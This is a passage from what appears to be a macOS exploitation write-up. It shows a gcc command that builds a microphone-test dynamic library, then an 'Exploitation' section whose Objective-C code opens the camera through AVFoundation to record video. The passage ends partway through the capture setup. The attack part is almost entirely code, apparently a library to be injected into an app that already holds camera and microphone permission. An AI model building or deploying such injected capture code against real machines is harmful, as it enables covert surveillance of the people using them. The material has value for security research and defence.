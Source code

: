 
Microphone Compile:


```
gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib
```

    
  Microphone Test:
    
    
  ![](/assets/images/89b0b7f7ecbe1f8c26b1c297e38457dd)
  
  &nbsp;
    

# **Exploitation**


Now, It's the time for exploitation. The following code will let us access the camera and record a video for 3 seconds:


```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation VideoRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];

    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }

    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];

```